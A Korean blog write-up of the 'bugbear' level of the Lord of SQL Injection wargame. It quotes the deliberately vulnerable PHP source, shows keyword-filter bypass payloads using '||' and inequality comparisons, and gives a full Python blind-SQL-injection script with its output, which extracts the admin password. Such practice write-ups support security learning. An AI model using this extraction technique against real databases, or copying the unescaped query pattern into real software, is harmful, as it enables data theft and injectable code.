 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - bugbear 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `생각 전환`의 필요성에서 살짝 느꼈던 문제였다.  

뭔가 허점을 찌르는 느낌이었다.  

`bugbear`라는 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------
query : select id from prob_bugbear where id='guest' and pw='' and no=
---------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

필터링을 보면 뭔가 굉장히 빡세게 걸려있다.  

이 전 문제들에서 사용했던 것들이 대부분 막혀있다.  

하지만 다행인건, `&&`와 `||`은 사용할 수 있다는 것이다.  

그래도 아직 `like`과 `=`를 사용할 수 없기 때문에 비교를 할 수 없다.  

아니 정정하자면, `같은지` 비교를 할 수 없다.  

그럼 반면, 내가 입력한 값보다 `큰지 혹은 작은지`는 비교할 수 있다.  

이 때문에 나는 `부등호`를 사용해서 문제를 풀었다.  

내가 많이 고민했던 부분은 `id='admin'`을 사용할 수 없다는 점이었다.  

`admin`의 `pw`를 출력하긴 해야 하는데, `id='admin'`을 그 어떤 방법으로도 비교할 수 없어 보였다.  

그래서 `부등호를 사용해 비교할 수 있는 값`에 초점을 맞추어 다시 문제를 보았다.  

그러다 눈에 띈 것이 `no`였다.  

아마도 다른 문제들처럼, 각각의 계정에 `no` 값이 부여되어 있을 것이다.  

때문에 부등호를 이용 해 `no`를 비교한다면, `id`가 `admin`인 행을 구할 수 있지 않을까 생각했다.  

이를 확인하기 위해 아래와 같이 입력 해 보았다.  

```
?pw=1&no=1||no<2
```

그랬더니 `Hello guest`가 출력되었다.  

이것저것 시도 해 보니, `?pw=1&no=1||no>1`을 입력하니 `Hello admin`을 얻을 수 있었다.  

일단 `id`가 `admin`인 행을 구할 수 있으니, `pw`의 길이와 값은 이 전 문제와 동일하게 `length()`와 `min()`를 사용하고, 부등호를 통해 비교하게 하면 될 것이다.  

또한 만약 `Hello admin`이 출력 된다면 그 값이 아니라 `해당 값 - 1`을 길이 혹은 pw의 일부라고 생각하면 된다.  

이를 토대로 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?pw=1&no=0||no"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + ">1%26%26length(pw)<" + str(i)
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i - 1
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + ">1%26%26mid(pw," + str(j) + ",1)<char(" + str(i) + ")"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i - 1)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

너무 한번에 결과가 나와서 당황했는데, 다행히 제대로 된 `pw`를 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 5
[+] Found 2 : 52
[+] Found 3 : 52D
[+] Found 4 : 52DC
[+] Found 5 : 52DC3
[+] Found 6 : 52DC39
[+] Found 7 : 52DC399
[+] Found 8 : 52DC3991
[+] Found password :  52DC3991
[+] End
```

이전 문제들처럼 알파벳 소문자로 바꿔서 아래와 같이 입력하면 문제가 풀린다.  

```
?pw=52dc3991
```

```php
------------------------------------------------------------------------------------
query : select id from prob_bugbear where id='guest' and pw='52dc3991' and no=
------------------------------------------------------------------------------------

BUGBEAR Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

`BUGBEAR Clear!!`